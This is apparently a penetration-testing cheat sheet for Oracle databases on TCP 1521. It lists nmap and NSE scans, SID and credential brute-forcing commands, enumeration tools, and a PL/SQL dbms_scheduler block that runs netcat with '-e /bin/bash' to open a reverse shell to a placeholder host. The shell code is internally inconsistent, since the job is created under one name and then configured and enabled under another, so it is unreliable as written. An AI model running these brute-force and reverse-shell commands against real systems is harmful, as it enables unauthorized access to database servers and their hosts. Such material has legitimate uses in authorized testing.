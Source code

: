 ```yaml
---
description: TCP/1521
---
```


# Oracle

## Enumerating with nmap

```bash
nmap -v -n -Pn -sT -p 1521 --open --oA report_oracle $range
grep open report_oracle.gnmap | cut -d" " -f2 > hosts_oracle.txt
```

## Enumeration with NSE

```bash
#fingerprint
nmap -p 1521 --script=oracle-tns-version $ip

nmap -p 1521 --script oracle-sid-brute $ip
nmap -p 1521 --script oracle-brute --script-args oracle-brute.sid=$sid $ip
```

## Enumeration Tools

```bash
oscanner -s $ip -P 1521 

tnscmd10g version -h $ip
```

## Oracle Reverse Shell

```sql
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```

